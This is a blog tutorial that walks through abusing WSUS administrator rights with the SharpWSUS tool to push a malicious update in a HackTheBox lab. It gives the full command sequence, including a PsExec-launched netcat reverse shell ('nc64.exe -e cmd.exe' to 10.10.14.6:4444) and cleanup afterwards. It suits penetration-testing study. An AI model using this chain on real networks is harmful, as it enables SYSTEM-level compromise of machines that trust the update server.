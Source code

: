 ```yaml
---
title: WSUS
date: 2024-02-11 12:00:00 +0100
categories: [WSUS,AD]
tags: [update,wsus]
---
```



## Quick introduction : What is WSUS ?
Windows Server Update Services (WSUS) is a tool that allows you to efficiently manage the distribution of updates from Microsoft Update to computers on your network. With WSUS, your server communicates directly with Microsoft's update server to fetch the latest updates (instead of each computers) and then deploys them across your network. As a WSUS administrator, you have the power to control when and how these updates are installed on your networked computers.

This feature is particularly useful for large companies where you need to avoid updates being installed simultaneously on all resources. It also gives you the flexibility to ensure that updates are only pushed out if they're compatible with your existing systems.

The following schema is explaining the basics : 

![img-description](/assets/Pasted image 20240211211249.png)



However, even if you have some leverage as a WSUS administrator , it doesn't grant you the ability to force install updates on individuals computers. Instead, WSUS allows administrators to approve updates for installation on client machines. However, the actual installation process is ultimately controlled by the individual computers' settings, which may include automatic or manual installation by the user, or to a predefined schedule. 

With that said, let's see what we can do as a WSUS administrator in the context of an attacker.

## Approving malicious updates

As an attacker, WSUS administrator rights can be used to create and approve a malicious update allowing us to execute a payload on clients using WSUS.

A great tool can help us in this matter : `SharpWSUS` which you can find [Here](https://github.com/nettitude/SharpWSUS)

[This blog](https://labs.nettitude.com/blog/introducing-sharpwsus/) shows perfectly what it can do and we are going to try a different payload.

### SharpWSUS

You can build this tool using `Visual Studio` and then run it on the target machine : 
![img-description](/assets/Pasted image 20240211144723.png)

#### Locating the WSUS server : 

We can locate the WSUS server using the `locate` command : 

```powershell
.\SharpWSUS.exe locate
```

![img-description](/assets/Pasted image 20240211145220.png)


which is the same than querying the registry key `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate` :
```powershell
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
```

![img-description](/assets/Pasted image 20240211145259.png)


#### Inspecting the WSUS server : 

At this point, you have to had the WSUS administrator rights to access the `MICROSOFT##WID` database :

```powershell
.\SharpWSUS.exe inspect
```

![img-description](/assets/Pasted image 20240211150508.png)


With the rights, here what you get : 
![img-description](/assets/Pasted image 20240211150757.png)

#### Creating and approving malicious update

Malicious patches do have some limitations : 
* once the update is created and approved, we have to wait for the client to install the update
* the payload **must** be a Microsoft signed binary
* the payload **must** point to a location on disk


We are going to use `psexec` as the microsoft signed binary. However, instead of creating a new user with local admin rights, we'll try a reverse shell.

Here's `SharpWSUS` convenient `create` command :
```powershell
Create an update (NOTE: The payload has to be a windows signed binary):
    SharpWSUS.exe create /payload:[File location] /args:[Args for payload] </title:[Update title] /date:[YYYY-MM-DD] /kb:[KB on update] /rating:[Rating of update] /msrc:[MSRC] /description:[description] /url:[url]>
```

You don't need all the parameters : payload, args are enough since the others are already hardcoded in `SharpWSUS` : 

```c#
        public static string CommandName => "create";
        public static int iRevisionID;
        public static string PayloadPath = "";
        public static string PayloadArgs = "";
        public static string UpdateTitle = "SharpWSUS Update";
        public static string UpdateDate = "2021-09-26";
        public static string UpdateRating = "Important";
        public static string UpdateMSRC = "";
        public static string UpdateKB = "5006103";
        public static string UpdateDescription = "Install this update to resolve issues in Windows.";
        public static string UpdateURL = @"https://www.nettitude.com";

```


```powershell
.\SharpWSUS.exe create /payload:"C:\Users\svc_sql\Documents\rlyeh\PsExec64.exe" /args:"-accepteula -s -d C:\Users\svc_sql\Documents\rlyeh\nc64.exe -e cmd.exe 10.10.14.6 4444" /title:"Antemess Update"
```

where :
* `-s` running the process as system
* `-d `run the process in the background
* `-accepteula` accept the End-User License Agreement without requiring manual intervention

![img-description](/assets/Pasted image 20240211165121.png)

Now that the update is created, approval is required for targeted machine to deploy the update. `SharpWSUS`'s approve command is the next step. Beforehand, make sure to fire up a listener.

```powershell
SharpWSUS.exe approve /updateid:fdf6645f-94f7-4301-8bc9-3050ba5ef9f7 /computername:Target.FQDN /groupname:"Group Name"
```

in our case : 

```powershell
.\SharpWSUS.exe approve /updateid:fdf6645f-94f7-4301-8bc9-3050ba5ef9f7 /computername:openAD.king.htb /groupname:"Antemess Update"
```
![img-description](/assets/Pasted image 20240211165518.png)

WSUS patches are approved per WSUS group and not per machine, this is why we need that the machine we are targeting is in a group with no other machines.

And as we can see if we use the `inspect` command : 

![img-description](/assets/Pasted image 20240211165801.png)

#### It's waiting time

Now, we wait for the update to be installed by the machine. Once it's done, we have a call back as system on our listener : 

![img-description](/assets/Pasted image 20240211165924.png)

#### It's cleaning time 

`SharpWSUS` has another convenient command : `delete` 

```powershell
.\SharpWSUS.exe delete /updateid:fdf6645f-94f7-4301-8bc9-3050ba5ef9f7 /computername:openAD.king.htb /groupname:"Antemess Update"
```
![img-description](/assets/Pasted image 20240211170830.png)


That's it ! Be sure to check the blog post from `SharpWSUS`'s creator. If you want to try this, you can do HTB's `outdated` box.
## Source

https://labs.nettitude.com/blog/introducing-sharpwsus/
